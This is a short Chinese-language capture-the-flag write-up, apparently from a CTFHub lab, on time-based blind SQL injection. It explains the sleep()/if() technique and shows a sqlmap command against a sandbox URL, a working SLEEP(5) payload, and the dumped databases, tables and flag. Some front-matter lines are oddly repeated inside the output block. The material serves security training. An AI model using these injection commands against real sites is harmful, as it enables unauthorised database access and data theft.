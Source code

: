 ```yaml
---
cover: https://w.wallhaven.cc/full/mp/wallhaven-mpv5vm.png
created: 2024-11-27T22:18
date: 2024-11-23 17:24:33+00:00
lastmod: 2024-11-23 18:11:55+00:00
tag: web渗透
tags:
  - web渗透
title: 时间盲注
updated: 2024-12-30T23:33
---
```




# 时间盲注

### 时间盲注简介

时间盲注又称延迟注入，个人理解，适用于==页面不会返回错误信息，只会回显一种界面==，其主要特征是==利用sleep函数，制造时间延迟，由回显时间来判断是否报错==。  
官方理解：**利用sleep()或benchmark()等函数让mysql执行时间变长经常与if(expr1,expr2,expr3)语句结合使用，通过页面的响应时间来判断条件是否正确。if(expr1,expr2,expr3)含义是如果expr1是True,则返回expr2,否则返回expr3。**

```shell
 sqlmap -u "http://challenge-1715702b3e026ca9.sandbox.ctfhub.com:10800/?id=1"  
```

```shell
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 9203 FROM (SELECT(SLEEP(5)))WNiH)
tags: [web渗透]
title: 时间盲注
title: 时间盲注
title: 时间盲注
tags: [web渗透]
title: 时间盲注
tags: [web渗透]
---
```

```shell
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli
```

```shell
Database: sqli
[2 tables]
+------+
| flag |
| news |
+------+

```

```shell
Database: sqli
Table: flag
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(100) |
+--------+--------------+
```

```shell
Database: sqli
Table: flag
[1 entry]
+----------------------------------+
| flag                             |
+----------------------------------+
| ctfhub{db50ceb57b14564b0aba5db0} |
+----------------------------------+
```
